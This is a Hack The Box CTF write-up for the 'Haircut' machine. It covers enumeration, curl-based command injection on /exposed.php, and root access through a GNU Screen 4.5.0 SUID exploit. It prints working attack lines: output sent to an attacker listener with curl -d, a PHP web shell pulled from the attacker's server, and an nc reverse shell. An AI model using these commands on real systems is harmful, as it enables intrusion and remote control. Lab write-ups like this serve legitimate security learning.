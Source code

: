 # htb-haircut
This is my [Hack the box](https://www.hackthebox.eu/)'s Haircut machine write-up.

## Machine
OS: GNU/Linux

IP: 10.10.10.24

Difficulty: Medium

## Initial enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN shocker.nmap 10.10.10.24`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:~/htb/haircut# nmap -sC -sV -oN haircut.nmap 10.10.10.24
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-24 13:39 EDT
Nmap scan report for 10.10.10.24
Host is up (0.094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.55 seconds
```

The web app running on port 80 just displays an image that does not say much.

Initial directories enumeration with the list `common.txt`:

```
root@kali:~/htb/haircut# gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u ${HAIRCUT}
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/24 13:55:47 Starting gobuster
===============================================================
/index.html (Status: 200)
/uploads (Status: 301)
===============================================================
2020/05/24 13:56:26 Finished
===============================================================
```

Interesting, there's an `/uploads` directory. Despite it does not seem very useful now, it may come handy in the future.

After trying with several other lists, which was a quite frustrating process to be honest, finally this one had a more intereseting result:

```
root@kali:~/htb/haircut# gobuster dir --url 10.10.10.24 --wordlist /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/05/24 15:23:49 Starting gobuster
===============================================================
/uploads (Status: 301)
/exposed.php (Status: 200)
```

The page `/exposed.php` has a text input, and when passing a URL it apparently curls it in the back-end and displays the result on screen. I tried to inject some commands but some symbols/keywords were blocked by the back-end e.g. &, ;, |, python and nc. Curl flags were not blocked, though.

## Exploitation
Checking the man page of `curl`, I thought that by using curl's request body (-d) it could be possible to transmit arbitrary info to a listener. By leveraging backticks, it could be possible to pass the result of a command execution to the listener. Neat!

Set up listener on the attacker machine: 
```
nc -lvp 4444
```

Commands now can be executed from the input of the `/exposed.php` page as follows, and the result of the executed command will be passed as data to the listener:
```
$IP_ATTACKER:4444 -d "`command goes here`"
```
With this we can get the following:
- `whoami` returns `www-data`.
- It is possible to even get the user flag already!: ```cat /home/maria/Desktop/user``` (always check `/home` for getting users)
- ```ls -alh``` returns
```
drwxr-xr-x 3 root     root     4.0K May 19  2017 .
drwxr-xr-x 3 root     root     4.0K May 16  2017 ..
-rwxr-xr-x 1 root     root     114K May 15  2017 bounce.jpg
-rwxr-xr-x 1 root     root     164K May 15  2017 carrie.jpg
-rwxr-xr-x 1 root     root      921 May 15  2017 exposed.php
-rwxr-xr-x 1 root     root      141 May 15  2017 hair.html
-rwxr-xr-x 1 root     root      144 May 15  2017 index.html
-rwxr-xr-x 1 root     root     133K May 15  2017 sea.jpg
-rwxr-xr-x 1 root     root      223 May 15  2017 test.html
drwxr-xr-x 2 www-data www-data 4.0K May 22  2017 uploads
```

It seems `uploads` may be a good place to locate a web shell as `www-data` can write to it. I'm going to use a PHP web shell called `Predator.php` available [here](https://github.com/JohnTroony/php-webshells.git). Note that other much simpler web shells should be enough, I just wanted to check that one out :)

The first step to copy the shell into the target server, is to make the shell "curleable" by exposing it through an HTTP server on the attacker:
```
$ cd php-webshells
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

And now from `/exposed.php` we curl it sending the file to `/uploads` leveraging `curl -o` (output file):
```
10.10.14.23:8000/Predator.php -o uploads/Predator.php
```

The shell is accessible now from `uploads/Predator.php`! Let's set up a reverse shell using it.

First, set a `nc` listener on the attacker to handle the reverse shell:
```
nc -lvp 4444
```

Then, set up the reverse shell by connecting to the listener from web shell (the web shell has a command execution feature, of course):
```
nc $IP_ATTACKER 4444 -e /bin/bash
```

From here it is immediately possible to run commands on the target from the attacker. Let's spawn a bash shell using Python (this is a very common trick to make it a bit more usable):
```
python3 -c "import pty; pty.spawn('/bin/bash');"
```

By running `LinEnum.sh` (copied to the target machine by setting up a Python http server as before), it can be noticed that there's a suspicious SUID executable in /usr/bin/screen-4.5.0, that turns out to be a vulnerable version that allows to escalate privileges:
```
$ searchsploit screen 4.5.0
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation              | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)        | linux/local/41152.txt
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I'd encourage you to first check the PoC to see what's going on, basically it is possible to create a file owned by root that can be edited by us (www-data in this case) which can be used to do privilege escalation.

When trying to execute the script (first exploit listed) it's noticeable that it needs some manual action to be functional:
- Change the way in which the script creates the .c files. It does is using `cat` and it does not work properly.
- ```gcc``` fails to compile as it does not find `cc1`. By doing `locate cc1` we see this is its location: `/usr/lib/gcc/x86_64-linux-gnu/5`. Adding that path to the PATH env var retrying did the trick.

After completing these manual actions, a root shell is popped when executing the script:
```
# whoami
whoami
root
```

## Conclusions
I enjoyed a lot this box even though I had to spend a lot of time working on it and it was quite frustrating at times. One lesson learned here was to always run LinEnum.sh if the privilege escalation path is not clear. I was initially trying to collect all the info manually but I was just missing it very badly.

Also, it is important to note that the exploit we got using searchsploit did not work initially but just after it was tweaked a bit. Always check why things don't work and try to fix them manually!
